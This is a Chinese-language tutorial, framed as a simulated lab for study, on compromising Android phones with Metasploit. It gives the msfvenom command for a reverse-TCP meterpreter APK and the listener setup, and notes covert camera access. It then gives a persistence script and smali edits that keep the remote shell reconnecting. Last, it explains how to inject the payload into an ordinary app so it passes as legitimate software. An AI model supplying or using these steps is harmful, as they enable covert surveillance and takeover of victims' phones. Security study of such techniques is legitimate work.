


郑重声明：本文展示的过程是在模拟环境中进行的，只为学习研究之用，如有人用于非法用途，产生的后果笔者不负任何责任。
写在前面的感想：做这个实验的时候，才发现一直以为的“手机不root就很安全”实在是太天真了。 有心人想窃取个人隐私简直轻而易举，需要了解攻击者的手法，不断提高防御水平，才能“知己知彼，百战不殆”。
维护信息安全，人人有责。
一、生成payload程序
kali ip为：172.16.20.98； Android设备ip为：172.16.20.81。打开kali终端，执行以下命令：
1 | msfvenom -p android/meterpreter/reverse_tcp lhost=172.16.20.98 lport=4444 R > /opt/apk.apk |
命令中的lhost是kali的ip，lport指定一个端口。

将生成的apk文件安装至Android设备中备用。 安装成功后桌面会多一个名字为MainActivity的应用图标。
二、连接Android设备
执行以下步骤：
- 在kali终端输入
msfconsole，进入msf环境 - 启动监听模块：
use exploit/multi/handler - 设置payload：
set payload android/meterpreter/reverse_tcp - 设置LHOST:
set lhost 172.16.20.98 - 设置LPORT：
set lport 4444 - 最后执行：
exploit

点击MainActivity图标（点击之后桌面没有反应，是正常的），可以在kali终端看到连接已经建立：

功能：可以输入help命令查看有哪些操作，这里仅举一些例子，如查看设备信息、是否root、在设备上毫无异常的情况下打开摄像头等等



但是，这个连接是在APP启动的时候建立的，稳定性比较差，一旦断网就会断开连接，且不会自动重连。
二、稳定性增强版
目前，解决稳定性问题最普遍的方法是，在建立连接后，迅速将以下脚本复制到Android设备上，并执行：
#!/bin/bashwhiletruedoam start --user 0 -a android.intent.action.MAIN -n com.metasploit.stage/.MainActivitysleep 20done
即定时重启Payload应用程序。但是，在没有root的设备上执行脚本会有权限错误。。。。因此，考虑修改Payload应用程序的源码。
反编译该apk文件，得到启动payload的关键代码：
MainActivity.java:protected void onCreate(Bundle arg1) {super.onCreate(arg1);MainService.startService(((Context)this));this.finish();}
MainService.java:public int onStartCommand(Intent arg2, int arg3, int arg4) {Payload.start(((Context)this));return 1;}
可以看到在MainService类的onStartCommand方法中启动了Payload。
思路一是重写MainService的onDestroy方法，在这个方法中加入启动Payload的代码。但是，payload连接断开时，MainService服务并没有结束，不会调用onDestroy方法，这里行不通。
思路二是通过在onStartCommand方法中添加AlarmManager定时器，定时执行payload，保证payload一直连接。即将onStartCommand方法修改为：
1 | public int onStartCommand(Intent intent, int flags, int startId) { Payload.start(this); |
对应的修改反编译的smali代码：
1 | .method public onStartCommand(Landroid/content/Intent;II)I .locals 7 invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V const-string v0, "alarm" |
另外，需要修改MainBroadcastReceiver的onReceiver方法中的代码：
1 | public void onReceive(Context context, Intent intent) { MainService.startService(context); |
对应的smali为：
1 | .method public onReceive(Landroid/content/Context;Landroid/content/Intent;)V .locals 0 |
然后，在Manifext中的MainBroadcastReceiver模块的intent-filter中增加：<actionandroid:name="METASPLOIT" />
smali修改完成后执行apktool apk -o apk_unsigned.apk，得到重新打包的payload apk；
然后执行jarsigner -verbose -keystore demo.keystore -signedjar apk_signed.apk apk_unsigned.apk demo.keystore 对应用进行签名（需要先生成KEYSTORE文件，并将此文件放在apk_unsigned.apk同一目录下）；
最后将签过名的apk_signed.apk安装至目标Android设备即可。
结果：
- 修改前和修改后的Payload应用程序均会被Android设备检测出风险，需要增加免杀；
- 连接依然不稳定。。。。
三、隐蔽性增强版
一开始考虑修改Payload应用程序的应用名和图标，伪装成其他应用，诱导用户安装。但是，反编译payload apk文件后，发现资源目录下没有drawable目录，无法更换图标。。。。。
只好换个思路，把payload应用程序嵌入某个普通app中。
首先，反编译两个应用。
- 打开将Payload应用程序 的smali目录复制到普通APP的相应目录下；
- 打开普通APP的AndroidManifest.xml文件，将Payload应用程序 的Manifest中申请的权限复制过来；
- 再把Payload应用程序 的Manifest中声名的组件复制到普通APP的Manifest文件中， 注意普通应用包名和 Payload应用程序 包名不同，复制过来后需要把组件名补全 ；
- 在普通APP的Manifest中找到有如下intent-filter标签的Activity：
1 | <intent-filter> |
- 在smali目录中，打开上一步找到的Activity，找到onCreate方法，在第一行插入Payload服务的启动语句，如下：
1 | .method protected onCreate(Landroid/os/Bundle;)V |
- 重新打包、签名该应用。
即可完成对 Payload应用程序 的伪装。但是，仍然会被设备检测出风险。
参考文献：
【1】 https://www.freebuf.com/sectool/141234.html
【2】 https://www.freebuf.com/articles/terminal/188585.html